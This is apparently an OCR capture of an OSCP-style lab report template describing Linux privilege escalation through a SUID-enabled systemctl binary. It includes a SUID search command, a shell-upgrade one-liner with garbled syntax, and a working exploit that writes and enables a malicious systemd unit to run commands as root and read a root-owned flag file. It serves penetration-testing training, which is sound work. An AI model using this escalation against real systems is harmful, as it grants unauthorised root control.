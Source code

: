 **Service Exploited:  
Vulnerability Type:
Exploit POC:**
**Description**: 

**++Discovery of Vulnerability++**
search for all SUID bits set:
SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

find . -perm /4000 2>/dev/null
/bin/systemctl stood out

<https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49>
*renamed to phtml to upload


Upgrade to PTY shell:
python -c ‘import.pty: pty.spawn("/bin/bash")’

**++Exploit Code Used++**
priv=$(mktemp).service

echo '[Service]
>ExecStart=/bin/bash -c “cat /root/root.txt > /opt/flag”
>[Install]
>WantedBy=multi-user.target' > $priv

#run the unit file using systemctl
/bin/systemctl link $priv
/bin/systemctl enable --now $priv

excuted as root
cat /opt/flag




**++Proof\Local.txt File++**

   - [ ] Screenshot with ifconfig\ipconfig
   - [ ] Submit too OSCP Exam Panel

